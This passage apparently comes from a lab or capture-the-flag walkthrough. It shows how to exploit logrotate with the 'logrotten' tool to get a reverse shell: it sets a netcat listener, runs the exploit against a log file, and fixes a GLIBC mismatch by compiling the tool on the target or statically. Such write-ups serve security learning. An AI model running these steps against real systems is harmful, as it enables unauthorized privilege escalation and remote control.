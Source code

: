 If the output is "compress", then we will use the exploit adapted to this function.

```
# First set a listener on our kali machine
nc -lnvp 9001


# Now run the exploit adapted to the compress function:
./logrotten -p ./payload -c -s 4 /tmp/log/pwnme.log
```

Wait for the reverse shell to spawn.

### Trobleshooting:  GLIBC Version 
Troubleshooting when launching the command:

```
./logrotten -p ./payload ~/backups/access.log
```

Output: 

```
./logrotten: /lib/x86_64-linux-gnu/libc.so.6: version GLIBC_2.34' not found (required by ./logrotten)
```


The issue is that the `logrotten` binary compiled requires **GLIBC 2.34**, but the target system has an older version. Here’s how to fix this:

**1.** Check the Target System's GLIBC Version

```
ldd --version
```


Look at the first line. If the version is older than 2.34, we have two options:

**Compile logrotten on the target system (if gcc is available).**

```
which gcc

git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```


**Compile logrotten with an older GLIBC version on the attacking machine.**

Compile logrotten with an Older GLIBC. Find an older system (or a Docker container) that matches the target. Compile logrotten on that system:

```
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten -static
```
